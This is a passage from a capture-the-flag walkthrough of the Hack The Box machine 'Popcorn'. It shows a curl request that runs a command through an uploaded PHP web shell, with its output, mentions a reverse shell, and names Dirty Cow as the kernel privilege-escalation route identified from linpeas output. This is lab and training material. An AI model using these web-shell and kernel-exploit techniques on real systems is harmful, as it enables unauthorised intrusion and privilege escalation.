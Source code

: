 Here I was able to find a PHP file uploaded on today's date.

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

And we can confirm we have RCE using `curl`.

```bash
$ curl http://popcorn.htb/torrent/upload/2f0dd1f17d87f07b593c479d3257ca18635e0b17.php?cmd=id                                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we can easily gain a reverse shell as `www-data`. We can also read the user flag as this user.

## Privilege Escalation

### TorrentHoster

Within the `/home/george` directory, we can find a `.zip` file of interest.

```
www-data@popcorn:/home/george$ ls
torrenthoster.zip  user.txt
```

When unzipped, this revealed a backup of the BitTorrent files. Nothing interseting here!

### Path 1: Dirty Cow

This was a really old machine, so obviously kernel exploits for this work.

```
# output from linpeas
[+] Operative system                                                                         
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits              
Linux version 2.6.31-14-generic-pae (buildd@rothera) (gcc version 4.4.1 (Ubuntu 4.4.1-4ubuntu8) ) #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009
```

The Linux version of 2.6.31 was vulnerable to the Dirty Cow exploit, which is not the intended method but still works.&#x20;

